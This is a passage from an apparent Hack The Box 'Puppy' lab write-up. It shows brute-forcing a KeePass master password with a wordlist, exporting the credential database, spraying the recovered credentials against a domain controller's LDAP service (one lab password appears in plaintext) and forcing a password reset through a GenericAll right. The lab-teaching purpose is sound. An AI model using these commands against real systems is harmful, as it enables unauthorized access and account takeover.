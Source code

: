 We can try to generate a hash using `keepass2john` but it doesn't work:
```console
$ keepass2john recovery.kdbx >> hash
! recovery.kdbx : File version '40000' is currently not supported!
```

### Cracking the KeePass Master Password
We can use `keepassxc-cli` but first we have to bruteforce the password using this script:
[keepass4brute.sh](https://github.com/r3nt0n/keepass4brute/blob/master/keepass4brute.sh)
```console
$ ./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: [REDACTED]/14344392 - Attempts per minute: 120 - Estimated time remaining: 11 weeks, 6 days
[+] Current attempt: [REDACTED]

[*] Password found: [REDACTED]
```

Now, we can use `keepassxc-cli` to export data in xml format from the KeePass database file:
```console
$ keepassxc-cli export -f xml ../recovery.kdbx > dump.xml
Enter password to unlock ../recovery.kdbx: 
```

We can find few passwords and usernames in this dump file and we can again use `nxc` for brute forcing credentials to see that we have right credentials for `ant.edwards`:
```console
$ nxc ldap 10.10.11.70 -u users.txt -p passwords.txt --continue-on-success
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
...
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\ant.edwards:[REDACTED] 
...
```

### Changing the password for Adam.Silver 
We can see in `Bloodhound` that we have GenericAll permission on `adam.silver` user, so we can use Force Password Change abuse to change the password of that user:
![Ant Edwards Bloodhound](/assets/images/HackTheBox-Puppy/ant_edwards_bloodhound.png)
```console
$ net rpc password "adam.silver" 'Ghost@2025!' -U PUPPY.HTB/ant.edwards%'[REDACTED]' -S 10.10.11.70
```